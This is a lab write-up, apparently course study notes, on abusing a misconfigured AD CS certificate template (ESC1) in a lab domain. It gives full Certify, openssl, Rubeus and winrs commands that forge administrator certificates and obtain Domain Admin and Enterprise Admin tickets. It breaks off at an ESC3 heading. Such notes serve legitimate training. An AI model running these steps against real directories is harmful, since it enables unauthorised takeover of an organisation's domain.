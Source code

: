# 🪜 Find vulnerable templates w/ AD CS  to escalate to DA and EA

We can start by using the Certify tool to check for AD CS in moneycorp ->

```
C:\AD\Tools\Certify.exe cas
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

We can list all the templates using the following command. Going through the output we can find some interesting templates:

```
C:\AD\Tools\Certify.exe find
```

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

```
[snip]
CA Name : mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA
 Template Name : SmartCardEnrollment-Agent    
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 0
pkiextendedkeyusage : Certificate Request Agent     
 mspki-certificate-application-policy : Certificate Request Agent
 Permissions
 Enrollment Permissions
 Enrollment Rights : dcorp\Domain Users S-1-5-21-719815819-3726368948-3917688648-513    
[snip]
Template Name : HTTPSCertificates     
 Schema Version : 2
 Validity Period : 1 year
 Renewal Period : 6 weeks 
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
[snip]
```

Now that we have the templates that we find interesting, we can try out for Privilege Escalation to DA and EA using ESC1

The template HTTPSCertificates looks interesting. Let's get some more information about it as it allows requestor to supply subject name:

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1123</p></figcaption></figure>

```
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```

what this means is that the HTTPSCertificates template grants enrollment rights to RDPUsers group and allows requestor to supply Subject Name. Recall that student613 is a member of RDPUsers group. This means that we can request certificate for any user as student613.

Now we can try to request a certificate for Domain Admin - Administrator:

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now let's Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to esc1.pem:

```
notepad C:\AD\Tools\esc1.pem
```

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use SecretPass@123 as the export password ->

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx 
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's start by encoding "asktgt"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can check if we actually have DA privileges:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use similar method to escalate to Enterprise Admin privileges. Request a certificate for Enterprise Administrator - Administrator

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx   
```

Encode asktgt and run the follwing command ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1-EA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And check for EA privileges ->

```
winrs -r:mcorp-dc cmd /c  set username
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Need to go back on this process later on
{% endhint %}

Now let's try Privilege Escalation to DA and EA using ESC3
